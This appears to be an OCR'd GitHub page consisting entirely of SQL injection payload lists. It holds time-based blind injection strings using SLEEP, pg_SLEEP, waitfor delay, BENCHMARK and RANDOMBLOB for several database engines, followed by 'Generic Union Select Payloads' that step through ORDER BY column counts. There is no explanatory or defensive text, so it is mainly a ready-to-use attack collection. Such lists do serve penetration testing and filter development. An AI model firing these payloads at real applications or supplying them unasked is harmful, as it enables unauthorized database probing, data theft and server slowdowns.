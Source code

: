 ```
waitfor delay '00:00:05'
waitfor delay '00:00:05'--
waitfor delay '00:00:05'#
benchmark(50000000,MD5(1))
benchmark(50000000,MD5(1))--
benchmark(50000000,MD5(1))#
or benchmark(50000000,MD5(1))
or benchmark(50000000,MD5(1))--
or benchmark(50000000,MD5(1))#
pg_SLEEP(5)
pg_SLEEP(5)--
pg_SLEEP(5)#
or pg_SLEEP(5)
or pg_SLEEP(5)--
or pg_SLEEP(5)#
'\"
AnD SLEEP(5)
AnD SLEEP(5)--
AnD SLEEP(5)#
&&SLEEP(5)
&&SLEEP(5)--
&&SLEEP(5)#
' AnD SLEEP(5) ANd '1
'&&SLEEP(5)&&'1
ORDER BY SLEEP(5)
ORDER BY SLEEP(5)--
ORDER BY SLEEP(5)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
+benchmark(3200,SHA1(1))+'
+ SLEEP(10) + '
RANDOMBLOB(500000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
RANDOMBLOB(1000000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

#### Generic Union Select Payloads

```
 ORDER BY SLEEP(5)
 ORDER BY 1,SLEEP(5)
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A'))
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
```
